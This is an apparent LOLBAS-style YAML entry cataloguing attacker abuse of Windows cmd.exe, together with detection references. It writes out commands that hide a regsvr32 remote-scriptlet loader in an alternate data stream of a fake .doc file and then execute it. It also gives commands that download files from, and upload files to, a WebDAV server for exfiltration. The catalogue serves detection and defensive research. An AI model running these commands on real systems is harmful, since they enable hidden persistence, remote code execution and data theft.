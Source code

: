 ```yaml
---
Name: Cmd.exe
Description: The command-line interpreter in Windows
Author: Ye Yint Min Thu Htut
Created: 2019-06-26
Commands:
  - Command: cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat
    Description: Add content to an Alternate Data Stream (ADS).
    Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: cmd.exe - < fakefile.doc:payload.bat
    Description: Execute payload.bat stored in an Alternate Data Stream (ADS).
    Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
    Category: ADS
    Privileges: User
    MitreID: T1059.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: type \\webdav-server\folder\file.ext > C:\Path\file.ext
    Description: Downloads a specified file from a WebDAV server to the target file.
    Usecase: Download/copy a file from a WebDAV server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: type C:\Path\file.ext > \\webdav-server\folder\file.ext
    Description: Uploads a specified file to a WebDAV server.
    Usecase: Upload a file to a WebDAV server
    Category: Upload
    Privileges: User
    MitreID: T1048.003
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\cmd.exe
  - Path: C:\Windows\SysWOW64\cmd.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_susp_alternate_data_streams.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_ads_file_creation.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/61afb1c1c0c3f50637b1bb194f3e6fb09f476e50/rules/windows/defense_evasion_unusual_dir_ads.toml
  - IOC: cmd.exe executing files from alternate data streams.
  - IOC: cmd.exe creating/modifying file contents in an alternate data stream.
Resources:
  - Link: https://twitter.com/yeyint_mth/status/1143824979139579904
  - Link: https://twitter.com/Mr_0rng/status/1601408154780446721
  - Link: https://medium.com/@mr-0range/a-new-lolbin-using-the-windows-type-command-to-upload-download-files-81d7b6179e22
  - Link: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/type
Acknowledgement:
  - Person: r0lan
    Handle: '@yeyint_mth'
  - Person: Mr.0range
    Handle: '@mr_0rng'
---
```

